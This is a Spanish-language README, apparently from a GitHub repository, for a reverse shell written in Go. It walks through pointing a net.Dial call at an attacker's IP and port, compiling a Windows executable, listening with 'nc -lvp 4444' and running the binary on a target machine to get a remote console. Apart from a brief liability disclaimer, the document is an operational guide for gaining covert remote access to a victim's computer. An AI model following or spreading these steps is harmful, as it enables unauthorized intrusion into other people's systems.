 # Reverse Shell en Go

Este repositorio contiene un script de **Reverse Shell** escrito en Go. La Reverse Shell permite a un atacante obtener acceso remoto a la máquina de la víctima a través de una conexión TCP.

---

## 🚨 **Advertencia de Responsabilidad** 🚨

Este script debe usarse únicamente con fines educativos y de investigación en entornos controlados y con autorización previa. **El uso indebido de esta herramienta puede ser ilegal y conllevar consecuencias legales graves.** No nos hacemos responsables por el mal uso de este código.

---

## 📋 **Requisitos Previos**
- **Go instalado**: Asegúrate de tener [Go](https://go.dev/doc/install) instalado en tu sistema.
- **Netcat (nc)**: Necesitarás `netcat` para escuchar las conexiones entrantes.

---

## 📂 **Archivos del Repositorio**
- **`reverse_shell.go`**: El archivo principal que contiene el código de la reverse shell en Go.

---

## ⚙️ **Uso del Código**

1. **Modifica la IP y el puerto** en la siguiente línea del código:
   ```go
   c, _ := net.Dial("tcp", "IP:PORT") 
- Reemplaza IP con la dirección IP del atacante (la dirección donde se recibirá la conexión).
- Reemplaza PORT con el puerto que desees (por ejemplo, 4444).

2. **Compila el archivo Go** para generar el binario ejecutable:
```go
   go build -o reverse_shell.exe reverse_shell.go

```
3. **Ejecuta el siguiente comando en la terminal de la máquina atacante** para escuchar la conexión entrante:
```
  nc -lvp 4444
```
4. **Ejecuta el binario en la máquina objetivo.** Cuando se ejecute, la máquina objetivo intentará conectarse a la IP y el puerto especificados en el código.

5. **Acceso Remoto:** Si todo funciona correctamente, obtendrás una consola de acceso a la máquina remota en tu terminal de Netcat.
